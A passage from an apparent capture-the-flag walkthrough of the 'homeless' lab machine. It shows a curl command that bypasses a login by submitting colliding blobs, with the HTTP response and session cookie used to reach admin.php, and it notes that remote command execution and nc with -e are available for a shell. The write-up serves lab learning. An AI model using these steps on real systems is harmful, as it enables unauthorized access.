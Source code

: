 ### On a Collision Course

Using `curl` to submit 3 colliding blobs as `username`, `password` and `code` respectively, I was able to obtain a session and access `admin.php` like so.

```
# curl -i -d "username=$(cat collisions/00)" -d "password=$(cat collisions/01)" -d "code=$(cat collisions/10)" -d "login=Login" http://192.168.198.130/d5fa314e8577e3a7b8534a014b4dcb221de823ad/
HTTP/1.1 100 Continue

HTTP/1.1 302 Found
Date: Sun, 25 Feb 2018 14:23:04 GMT
Server: Apache/2.4.25 (Debian)
Set-Cookie: PHPSESSID=teb2cojqo1337m3kuqj8dfb602; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: admin.php
Content-Length: 10
Content-Type: text/html; charset=UTF-8

Well done!
```

I replaced the existing session cookie with the one above to display `admin.php`.

![screenshot-10](/assets/images/posts/homeless-walkthrough/screenshot-10.png)

### Low Privilege Shell

The terminal allowed remote command execution and `nc` with `-e` is available.
